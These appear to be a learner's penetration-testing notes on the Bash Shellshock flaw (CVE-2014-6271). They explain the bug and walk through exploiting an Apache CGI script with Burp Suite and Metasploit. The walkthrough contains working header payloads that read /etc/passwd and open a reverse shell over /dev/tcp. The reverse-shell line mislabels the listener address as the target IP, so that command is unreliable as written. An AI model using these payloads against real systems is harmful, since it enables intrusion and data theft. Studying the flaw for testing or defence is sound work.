 ## Bash CVE-2014-6271 vulnerability (Shellshock)

* **What is Bash** --> A *Nix shell that is part of the GNU project and is the default shell for most Linux distributions. --> Default shell for most of the Linux distributions (eg: Ubuntu, Debian, arch Linux, Fedora,etc.)
* This vulnerability involves two services: Apache and Bash
* Shellshock --> name given to a family of vulnerabilities in the Bash shell (since v1.3), and hence only in Linux systems
* Allows an attacker to execute commands via Bash and obtain access to a reverse shell on the target.
* **WHY** --> Due to Bash mistakenly executing trailing commands after a series of characters --> (){:;};
* **What affect in the context of remote exploitation** --> Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.
* **What is CGI** --> Common Gateway INterface scripts are used by Apache to execute arbitrary commands on the Linux system --> after which the output is displayed to the client.

* **How to exploit**
  * In short, locate an input vector or script that allows us to communicate with Bash.
  * In the context of an Apache web server --> utilize a legitiimate CGI scripts accessible on the web server.
  * When a CGI script is executed (means when an HTTP web request is made with that CGI script), the web server will initiate a new process and run the CGI script with Bash (By adding the characters mentioned above in the HTTP headers and then specify the malicious commands after these characters)
  * Two ways:
       1. Manual way --> Burp proxy
       2. Automatic way --> MSF exploit module
   
## PRACTICAL
* Check in the page source of the target IP inside a browser, if you can see a CGI script running on the system.
* **How to check if a system is vulnerable to Shellshock attack**
  * `nmap -sV --script=http-shellshock -script-args "http-shellshcok.uri=[path of the CGI script on the target, in this case /gettime.cgi]" [target IP]`
 
### 1. Burp Suite
* FoxyProxy can be used to switch between proxies inside a web browser. Burp profile can be created inside this web extension.
* Then open the tool installed on Kali Linux: Burp Suite
* Select the default settings to start the project.
* Make sure that "Intercept is On" inside the "Proxy" tab. If we reload the page with CGI scrip, it should be intercepted by Burp Suite now.
* Malicious commands have to be inserted in "User-Agent" section inside "Proxy" tab.
* Inside "User-agent" --> `() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'`
* Right-click --> "Send to Repeater" --> Move to the "Repeater" tab --> Click "Send"  -> This will display the output of the command.
* **Gain a reverse shell on the target**
      * Utilize bash to connect to a listener on our Kali Linux system
      * `nc -nvlp 1234` --> Using netcat to start a listener on any free port
      * Inside Burp suite: User-Agent --> `() { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/[Target IP]/[port on which listener was setup,i.e. 1234] 0>&1`
      * Click "Send" --> This should provide a shell where listener was executed.  
### 2. Metasploit
* `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
* `set rhosts`
* `set targeturi [path of the CGI script on the target, in this case /gettime.cgi]`
* `exploit`
